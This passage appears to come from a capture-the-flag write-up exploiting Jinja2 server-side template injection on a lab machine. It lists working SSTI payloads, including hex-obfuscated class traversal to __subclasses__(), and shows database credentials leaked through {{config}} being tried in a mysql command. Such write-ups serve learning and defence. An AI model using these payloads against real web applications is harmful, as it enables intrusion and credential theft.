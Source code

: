 Knowing this we’ve surfed trhough the net to find some vulns, and we’ve found from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) an intereting image that explains all the possible versions

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/7dea887a-30d7-4761-a12f-0dca629c306e"></img>
</div>

By looking the above image we’ve searched for the `Jinjia2` version always from hacktricks, were we found some interesting [payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#accessing-global-objects) that we can insert to retrieve informations

```python
[]
''
()
dict
config
request
```

With the injection of `{{config}}` we’ve found

<div align="center">
	<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/de4c0344-f82a-4401-bb68-60e851e6ba00"></img>
</div>

As you can see here there are some mysql credentials that we tried to use, without any result :/

```bash
┌──(kali㉿kali)-[~]
└─$ mysql -h 10.10.11.218 -u atlas -pGarlicAndOnionZ42 -D SSA -P3306
ERROR 2002 (HY000): Can't connect to server on '10.10.11.218' (115)
```
So we looked for other payloads like these

```python
# To access a class object
[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object". 
## "dict" used as example from the previous list:
dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]

# From the "object" class call __subclasses__()
{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}

# Other examples using these ways
{{ ().__class__.__base__.__subclasses__() }}
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}
```